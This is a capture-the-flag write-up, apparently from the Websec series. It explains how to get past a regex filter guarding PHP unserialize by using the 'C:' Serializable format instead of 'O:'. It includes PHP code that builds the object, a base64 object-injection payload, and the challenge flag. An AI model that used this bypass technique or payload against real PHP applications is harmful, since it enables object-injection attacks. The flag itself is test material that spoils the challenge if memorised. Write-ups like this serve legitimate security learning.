

Here, there is another `Object injection` using `unserialize`.
However, this time there is some sort of WAF:
```php
function sanitize($data) {
    /* i0n1c's bypass won't save you this time! (https://www.exploit-db.com/exploits/22547/) */
    if ( ! preg_match ('/[A-Z]:/', $data)) {
        return unserialize ($data);
    }

    if ( ! preg_match ('/(^|;|{|})O:[0-9+]+:"/', $data )) {
        return unserialize ($data);
    }

    return false;
}
``` 

The bypass it talks about is giving: `O:+4`, however, he mitigates here, by not checking whether there is number after.
We can see at the second if that it looks for some string from the kind: `{O:+9:"`, but if we will give `C` instead of `O`, as we can see here [The Serializable interface](https://www.php.net/manual/en/class.serializable.php).

This is an example which is took from there:
```php
<?php

class obj implements Serializable {
    private $data;
    public function __construct() {
        $this->data = "My private data";
    }
    public function serialize() {
        return serialize($this->data);
    }
    public function unserialize($data) {
        $this->data = unserialize($data);
    }
    public function getData() {
        return $this->data;
    }
}

$obj = new obj;
$ser = serialize($obj);

var_dump($ser);

$newobj = unserialize($ser);

var_dump($newobj->getData());
?>
```
> ```
> string(38) "C:3:"obj":23:{s:15:"My private data";}"
> string(15) "My private data"
> ```

Alright, so this will be our code:
```php
class Flag implements Serializable {
    private $data;
    public function __construct() {
    }
    public function serialize() {
        return serialize($this->data);
    }
    public function unserialize($data) {
        $this->data = unserialize($data);
    }
}

$flag = new Flag();
echo serialize($flag)."\n";
echo base64_encode(serialize($flag))."\n";
```

And the output is:
> `C:4:"Flag":2:{N;}`
> `Qzo0OiJGbGFnIjoyOntOO30=`

However, this isn't working with `C:4:"Flag":2:{N;}`, rather with `C:4:"Flag":0:{N;}`, which gives us this base64 encoded string: `Qzo0OiJGbGFnIjowOntOO30=`
(it writes `2` because this length of the payload, `N;`)

* payload: `Qzo0OiJGbGFnIjowOntOO30=`



**Flag:** ***`WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}`*** 
